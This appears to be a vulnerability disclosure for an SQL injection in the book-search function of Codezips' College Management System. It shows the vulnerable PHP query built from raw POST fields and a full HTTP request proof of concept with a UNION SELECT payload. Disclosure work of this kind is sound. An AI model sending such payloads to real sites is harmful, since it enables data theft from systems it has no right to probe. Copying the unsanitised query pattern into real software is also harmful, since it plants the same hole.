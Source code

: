 # SQL Injection via Search function


## Vendor and Product information:
* **Vendor:** Codezips
* **Product:** College Management System
* **Product URL:** https://codezips.com/php/college-management-system/

## Description
The search book feature in the College Management System application is susceptible to SQL injection. This vulnerability could allow an attacker to extract sensitive server data and gain unauthorized access.

## Code
~~~ php
<?php
if(isset($_POST['search_book']))
 $name=$_POST['book_name'];
 $author=$_POST['book_author'];
 $query = "SELECT * FROM book WHERE book_name = '$name' AND author = '$author'";
 $results = mysqli_query($db, $query);
 $row = mysqli_fetch_array($results);
?>
~~~

## Proof of Concept
**HTTP Request Example**
``` http request
POST /college-mgmt-php-master/Front-end/faculty.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 81
Origin: http://localhost
Connection: keep-alive
Referer: http://localhost/college-mgmt-php-master/Front-end/faculty.php
Cookie: PHPSESSID=vetltpbc8h9eusf22vbcf34lor
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

book_name=x'+union+select+NULL,version(),NULL,NULL--+-&book_author=x&search_book=
```

## Screenshot
![image](https://github.com/user-attachments/assets/dcad5751-4fe1-4526-a343-2ee8568132eb)
![image](https://github.com/user-attachments/assets/da9693b3-d036-4bcd-b82b-235af45fdfc4)


## CWE
[CWE-89: Improper Neutralization of Special Elements used in an SQL Command ('SQL Injection')](https://cwe.mitre.org/data/definitions/89.html)

## **Credits**
> [John Alan Correche](https://github.com/shaturo1337)
